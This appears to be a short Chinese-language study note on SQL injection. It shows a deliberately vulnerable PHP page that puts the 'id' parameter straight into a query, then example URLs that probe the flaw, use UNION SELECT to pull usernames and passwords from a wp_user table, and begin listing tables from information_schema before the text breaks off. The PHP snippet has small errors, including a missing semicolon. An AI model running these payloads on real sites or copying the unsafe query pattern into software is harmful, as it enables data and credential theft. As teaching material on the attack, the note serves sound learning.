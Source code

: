 ## Sql Injection
### 1.数字型和Union注入

```
sql1.php
<?php
// connect
$conn = sql_connect("127.0.0.1", "root", "root", "test")
$res = mysqli_query($conn, "SELECT title, content FROM wp_news WHERE id=".$_GET['id']);
$row = mysqli_fetch_array($res);
echo "<center>";
echo "<h1>".$row['title']."</h1>";
echo "<br/>";
echo "<h1>".$row['content']."</h1>";
echo "</center>";
?>
```

## 1.1 注入尝试1, sql解析
`http://example.com/test.php?id=2`
`http://example.com/test.phph?id=3-1`
两者等价, 说明3-1进行了解析
## 1.2 union联合查找
`http://example.com/test.php?id=1+union+select+user,pwd+from+wp_user+limit+1,1`
limit1,1 表示从1开始取一条

## 1.3 通用攻击,对information_schema
`http://example.com/test.php?id=1 union select 1, group_concat(table_name) from information_sche`


